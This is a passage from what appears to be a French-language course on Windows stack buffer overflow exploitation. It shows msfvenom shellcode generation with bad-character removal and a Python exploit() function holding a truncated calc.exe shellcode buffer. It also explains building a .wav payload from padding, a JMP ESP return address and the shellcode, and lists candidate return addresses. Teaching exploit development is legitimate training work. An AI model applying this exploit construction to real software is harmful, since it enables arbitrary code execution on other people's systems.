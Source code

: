Remarque : Nous avons utilisé `-b` pour montrer comment éliminer les mauvais caractères de notre shellcode, où nous pouvons ajouter tous les mauvais caractères que nous devons éliminer (par exemple `'\x00\x0a\x0d'`). Même si notre shellcode n'avait pas de mauvais caractères, ce shellcode devrait toujours fonctionner, bien que le shellcode final soit généralement plus long si nous spécifions de mauvais caractères

Ensuite, nous pouvons copier la variable `buf` dans notre exploit, où nous allons maintenant définir la fonction finale `def exploit()`, qui sera notre principal code d'exploitation :

Code : python

```
def exploit() :
     # msfvenom -p 'windows/exec' CMD='calc.exe' -f 'python' -b '\x00'
     buf = b""
     buf += b"\xd9\xec\xba\x3d\xcb\x9e\x28\xd9\x74\x24\xf4\x58\x29"
     ...COUPER...
     buf += b"\xfd\x2c\x39\x51\x60\xbf\xa1\xb8\x07\x47\x43\xc5"

```

Astuce : Il est conseillé d'ajouter un commentaire au-dessus de tout shellcode avec la commande utilisée pour le générer, au cas où nous voudrions le modifier ou le régénérer à l'avenir, ou si nous voulions simplement savoir ce qu'il va exécuter.

* * * * *

La charge utile finale
-----------------

Maintenant que nous avons notre shellcode, nous pouvons écrire la charge utile finale que nous écrirons dans le fichier `.wav` à ouvrir dans notre programme. Jusqu'à présent, nous savons ce qui suit :

1. `buffer` : nous pouvons remplir le tampon en écrivant `b"A"*offset`
2. `EIP` : Les 4 octets suivants doivent être notre adresse de retour
3. `buf` : Après cela, nous pouvons ajouter notre shellcode

Dans la section précédente, nous avons trouvé plusieurs adresses de retour qui peuvent fonctionner pour exécuter n'importe quel shellcode que nous écrivons sur la pile :

| `ESP` | `JMP ESP` | `APPUYER ESP ; RET` |
| --- | --- | --- |
| `0014F974` | `00419D0B` | `0047D4F5` |
| - | `00463B91` | `00483D0E` |
| - | `00477A8B` | - |
| - | `0047E58B` | - |
| - | `004979F4` | - |

N'importe lequel d'entre eux devrait fonctionner pour exécuter le shellcode que nous écrivons sur la pile (n'hésitez pas à en tester certains). Nous commencerons par le plus fiable, `JMP ESP`, et nous choisirons la première adresse `00419D0B` et l'écrirons comme adresse de retour.
